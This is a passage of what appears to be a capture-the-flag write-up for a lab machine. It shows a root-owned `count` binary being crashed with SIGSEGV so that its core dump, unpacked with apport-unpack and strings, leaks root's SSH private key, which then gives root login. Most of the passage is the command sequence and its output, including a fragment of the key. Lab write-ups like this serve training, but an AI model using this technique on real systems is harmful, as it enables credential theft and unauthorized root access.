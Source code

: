 It seems that because we are running the `count` binary as `root` and we crash the program while reading the file, the file contents is still in memory. When the `CoreDump` file is created, the contents of memory is still present.

We can repeat these steps to read the `id_rsa` file of `root`.&#x20;

```
dasith@secret:/dev/shm/core$ /opt/count 
Enter source file/directory name: /root/.ssh/id_rsa

Total characters = 2602
Total words      = 45
Total lines      = 39
Save results a file? [y/N]: ^Z
[1]+  Stopped                 /opt/count
dasith@secret:/dev/shm/core$ pidof count
1581
dasith@secret:/dev/shm/core$ kill -SIGSEGV 1581
dasith@secret:/dev/shm/core$ fg
/opt/count
Segmentation fault (core dumped)
dasith@secret:/dev/shm/core$ mv /var/crash/_opt_count.1000.crash .
dasith@secret:/dev/shm/core$ apport-unpack _opt_count.1000.crash dump
dasith@secret:/dev/shm/core$ cd dump
dasith@secret:/dev/shm/core/dump$ strings CoreDump
<TRUNCATED>
/root/.ssh/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
<TRUNCATED>
```

With this private key, we can `ssh` in as `root`.

<figure><img src="../../../.gitbook/assets/image (442) (2) (1).png" alt=""><figcaption></figcaption></figure>

Rooted!
